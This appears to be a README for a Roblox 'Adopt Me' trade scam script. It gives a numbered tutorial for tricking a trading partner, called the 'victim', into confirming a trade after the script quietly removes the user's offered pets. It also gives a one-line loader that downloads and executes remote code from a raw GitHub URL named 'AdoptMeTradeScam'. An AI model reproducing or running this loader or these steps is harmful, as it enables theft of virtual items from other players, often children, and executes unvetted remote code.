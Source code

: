 Lets you take pets out of the confirm screen on adopt me! (Might get patched soon!)
Tutorial:
1) run the script
2) wait 30 seconds for it to load
3) trade someone
4) put in your good pets
5) wait for them to accept first
6) the script will accept the trade for you
7) make them confirm first
8) the script will take out the pets you put in and make you confirm!
9) enjoy your pets!

NOTE: IF IT DOESNT WORK, STAY IN THE SERVER, WAIT 60 SECONDS THEN TRY AND RE TRADE THE VICTIM.

Last Tested: 23/01/23
script: loadstring(game:HttpGet('https://raw.githubusercontent.com/Penguin284/AdoptMeTradeScam/main/tradescam'))()
